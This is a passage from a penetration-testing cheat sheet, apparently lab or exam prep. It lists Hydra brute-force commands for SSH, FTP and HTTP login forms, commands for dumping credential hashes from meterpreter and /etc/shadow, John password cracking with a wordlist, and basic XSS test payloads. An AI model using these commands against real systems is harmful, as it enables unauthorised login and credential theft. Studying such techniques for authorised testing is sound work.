 **Remotely**
```sh
mysql -u <user> -p<password> -h <IP> -D <dbname>
```
**Locally**
```sh
mysql -u <user> -p<password>
```

## Hydra
**SSH & FTP Login Bruteforcing**
```sh
hydra -L userslist -P passwordslist ftp://10.10.10.10
hydra -l root -P passwordslist ssh://10.10.10.10 
hydra -L userlist -p password123 ftp://10.10.10.10
```          

**HTTP POST Form**
```sh
hydra http://10.10.10.10/ http-post-form "/login.php:user=^USER^&password=^PASS^:Incorrect credentials" -L usernames.txt -P passwords.txt -f -V
```

*You will know which wordlists to use when the time comes*

## Password Cracking 

#### To extract the Users with Hashes Password form OS 
```sh
hashdump                #Windows (meterpreter)

cat /etc/shadow         #Linux (Terminal) 

get /etc/shadow         #Linux (FTP Server)
```
#### John
```sh
john <Hash_Password-File> --wordlist=/usr/share/wordlists/rockyou.txt # To crack the password from your previous output (hashdump,shadow file )

#this is another way to crack passwords (that requires shadow file with passwd file)
unshadow passwd shadow > unshadowed.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```

## XSS
```sh
<script>alert(1)</script>
<ScRiPt>alert(1)</ScRiPt>
<script>alert('1')</script>
<ScRiPt>alert('1')</ScRiPt>
<script>alert('XSS')</script>
<ScRiPt>alert('XSS')</ScRiPt>
```
*This is a great filter bypass cheatsheet*\
https://owasp.org/www-community/xss-filter-evasion-cheatsheet
